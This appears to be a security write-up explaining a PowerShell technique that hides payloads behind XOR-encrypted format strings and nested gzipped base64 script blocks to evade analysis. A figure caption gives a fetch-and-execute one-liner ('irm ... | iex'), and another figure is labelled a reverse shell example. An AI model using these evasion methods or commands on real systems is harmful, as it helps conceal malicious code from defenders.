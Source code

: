 # PowerShell Script Block Obfuscation

### Background

This method was developed to obfuscate a payload behind several gzipped base64 encoded script blocks and XOR encrypted format strings. All while avoiding setting as few variables as possible to prevent someone from running the script in PowerShell ISE and inspecting the variable assignments. The obfuscated script blocks can be ran with arguments and piped to each other.

### Analysis

The initial stage of the obfuscation starts by defining an XOR key and saves the input text characters XORed with the key, allowing for the string to be rebuilt later. Before the string is reassembled both arrays are shuffled the same way and saved. Then, a format string is build referencing the XOR key array and the value to rebuild the character encrypted.&#x20;

<figure><img src="../../.gitbook/assets/First_Stage_Obfuscated.PNG" alt=""><figcaption><p>Example first stage obfuscation</p></figcaption></figure>

After the obfuscated string is created the script will gzip and base64 encode the first stage payload and append the PowerShell commands to allow it to decompress and decode from the command line. For a simple string or a command with no arguments the obfuscation can stop here to save space in the final payload.

<figure><img src="../../.gitbook/assets/Second_Stage_Obfuscated.PNG" alt=""><figcaption><p>Second stage obfuscation</p></figcaption></figure>

For commands with arguments the script will parse for the commands flags and arguments appending the flags and obfuscating the arguments. Lastly the script will take the built string and re-compress and encode the payload making one gzipped base64 encoded payload.

<figure><img src="../../.gitbook/assets/Example_Payload.PNG" alt=""><figcaption><p><em>irm -uri 127.0.0.1/test.ps1 | iex</em></p></figcaption></figure>

<figure><img src="../../.gitbook/assets/PoC_Working.PNG" alt=""><figcaption><p>Reverse shell example</p></figcaption></figure>

